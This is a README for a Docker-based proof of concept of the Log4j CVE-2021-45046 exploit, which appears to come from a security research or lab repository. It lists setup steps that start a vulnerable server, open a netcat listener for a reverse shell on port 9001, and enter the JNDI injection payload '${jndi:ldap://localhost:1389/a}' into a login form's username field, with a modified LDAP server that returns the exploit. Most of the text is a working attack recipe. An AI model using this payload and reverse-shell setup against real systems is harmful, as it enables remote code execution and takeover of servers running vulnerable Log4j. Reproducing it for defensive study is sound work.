

# Setup

Do the following:
1. In a new terminal, `docker-compose up cve-45046-server`
1. In a new terminal, run `docker-compose up modified-alpine`
1. In a new terminal, run `nc -lvnp 9001`. This sets up the netcat listener for the reverse shell.
1. Go to `localhost:8080`
1. Input `${jndi:ldap://localhost:1389/a}` into the username field. The password can be anything.

Alternatively, run the bash script `./cve45046.sh` for a quick-and-easy setup. However, running the bash script makes it such that you do not see any useful output.

A reverse shell should be spawned. The above PoC demonstrates the TOCTOU attack.

# Modifications Made

Modifications were made only to the `sendResult` function for the LDAP server. This was as outlined in the report.
